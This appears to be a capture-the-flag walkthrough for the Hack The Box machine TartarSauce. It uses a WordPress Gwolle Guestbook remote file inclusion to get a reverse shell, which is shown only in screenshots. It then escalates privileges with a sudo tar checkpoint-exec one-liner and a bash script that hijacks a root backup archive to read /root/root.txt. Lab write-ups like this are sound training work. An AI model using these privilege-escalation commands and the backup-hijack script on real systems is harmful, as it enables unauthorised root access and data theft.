# [TartarSauce](https://app.hackthebox.com/machines/tartarsauce)

```bash
rustscan 10.10.10.88
```

We see that only port 80 is open, let's do nmap for this port.

```bash
nmap -A -sC -sV -p80 10.10.10.88 -Pn 
```




Directory brute-forcing.

```bash
gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -u http://10.10.10.88
```




Robots.txt file




I also do directory brute-force on /webservices endpoint and find Wordpress website.




I do wpscan on this website.

```bash
wpscan --url http://10.10.10.88/webservices/wp/ -e vp,dbe
```


We find interesting and funny thing here, it is actual version of Wordpress's gwolle guestbook.




It is actually 1.5.3 version, that's why, let's search exploit for this version.



We find RFI (Remote File Inclusion) attack.


Due to exploit, that while make request as below, this request searchs 'wp-load.php' file on endpoint.




From here, we can see and prove .




Now, it's time for reverse shell, let's upload reverse shell to this endpoint on our machine and change name with 'wp-load.php'.



Again, we send request to our endpoint and we get reverse shell.



As you see, it returns 200 status code means OK,




Hola , we get reverse shell from our listenere.




We make interactive shell with python.
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
CTRL + Z
stty raw -echo; fg
```



Then time to put modifications on interactive shell.

```bash
export TERM=xterm
export SHELL=bash
```


Let's check privileges via `sudo -l` command.




We search on GTFOBins for `tar` command and find the way for privesc to 'onuma' user.



```bash
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```




user.txt




Here's backeruperer service running on background. (identified by using pspy64 tool)

Let's write script to read root.txt file

```bash
#!/bin/bash

# work out of shm
cd /dev/shm

# set both start and cur equal to any backup file if it's there
start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

# loop until there's a change in cur
echo "Waiting for archive filename to change..."
while [ "$start" == "$cur" -o "$cur" == "" ] ; do
    sleep 10;
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
done

# Grab a copy of the archive
echo "File changed... copying here"
cp $cur .

# get filename
fn=$(echo $cur | cut -d'/' -f4)

# extract archive
tar -zxf $fn

# remove robots.txt and replace it with link to root.txt
rm var/www/html/robots.txt
ln -s /root/root.txt var/www/html/robots.txt

# remove old archive
rm $fn

# create new archive
tar czf $fn var

# put it back, and clean up
mv $fn $cur
rm $fn
rm -rf var

# wait for results
echo "Waiting for new logs..."
tail -f /var/backups/onuma_backup_error.txt
```

After uploading this script, we wait for a while and get root.txt file content.

root.txt
